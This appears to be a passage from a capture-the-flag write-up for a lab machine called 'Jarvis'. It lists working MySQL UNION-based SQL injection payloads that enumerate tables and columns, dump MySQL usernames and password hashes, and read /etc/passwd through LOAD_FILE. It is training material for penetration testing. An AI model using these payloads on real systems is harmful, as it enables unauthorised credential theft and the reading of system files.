 ### 5) Enumerate the tables for the hotel database

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') from information_schema.columns where table_schema = 'hotel'),NULL;#
```

Notice below that the only table in the `hotel` database is `room`:

![](./images/jarvis-sql-injection-list-tables-hotel-database.png)

### 6) Enumerate the columns for the room table in the hotel database

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') from information_schema.columns where table_schema = 'hotel' and table_name = 'room'), NULL;#
```

![](./images/jarvis-sql-injection-room-hotel-schema.png)

### 7) Enumerate all MySQL usernames and passwords

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT CONCAT(user,';',password) from mysql.user),NULL;#
```

![](./images/jarvis-sql-injection-dump-usernames-passwords.png)

### 8) Read the /etc/passwd file

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,LOAD_FILE('/etc/passwd'),NULL;#
```

![](./images/jarvis-sql-injection-read-etc-passwd.png)
